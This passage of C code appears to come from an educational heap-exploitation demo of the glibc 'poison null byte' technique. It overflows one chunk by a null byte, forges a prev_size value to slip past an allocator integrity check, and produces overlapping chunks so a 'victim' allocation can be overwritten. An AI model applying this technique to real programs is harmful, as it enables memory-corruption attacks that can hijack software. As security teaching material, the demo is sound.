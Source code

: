 ```c
	//*(size_t*)(b+0x1f0) = 0x200;
	fprintf(stderr, "In newer versions of glibc we will need to have our updated size inside b itself to pass "
		"the check 'chunksize(P) != prev_size (next_chunk(P))'\n");
	// we set this location to 0x200 since 0x200 == (0x211 & 0xff00)
	// which is the value of b.size after its first byte has been overwritten with a NULL byte
	*(size_t*)(b+0x1f0) = 0x200;

	// this technique works by overwriting the size metadata of a free chunk
	free(b);
	
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
	fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_use\n");
	fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

	uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
	fprintf(stderr, "c.prev_size is %#lx\n",*c_prev_size_ptr);

	// This malloc will result in a call to unlink on the chunk where b was.
	// The added check (commit id: 17f487b), if not properly handled as we did before,
	// will detect the heap corruption now.
	// The check is this: chunksize(P) != prev_size (next_chunk(P)) where
	// P == b-0x10, chunksize(P) == *(b-0x10+0x8) == 0x200 (was 0x210 before the overflow)
	// next_chunk(P) == b-0x10+0x200 == b+0x1f0
	// prev_size (next_chunk(P)) == *(b+0x1f0) == 0x200
	fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
		*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
	b1 = malloc(0x100);

	fprintf(stderr, "b1: %p\n",b1);
	fprintf(stderr, "Now we malloc 'b1'. It will be placed where 'b' was. "
		"At this point c.prev_size should have been updated, but it was not: %lx\n",*c_prev_size_ptr);
	fprintf(stderr, "Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
		"before c.prev_size: %lx\n",*(((uint64_t*)c)-4));
	fprintf(stderr, "We malloc 'b2', our 'victim' chunk.\n");
	// Typically b2 (the victim) will be a structure with valuable pointers that we want to control

	b2 = malloc(0x80);
	fprintf(stderr, "b2: %p\n",b2);

	memset(b2,'B',0x80);
	fprintf(stderr, "Current b2 content:\n%s\n",b2);

	fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

	free(b1);
	free(c);
	
	fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
	d = malloc(0x300);
	fprintf(stderr, "d: %p\n",d);
	
	fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
	memset(d,'D',0x300);

	fprintf(stderr, "New b2 content:\n%s\n",b2);

```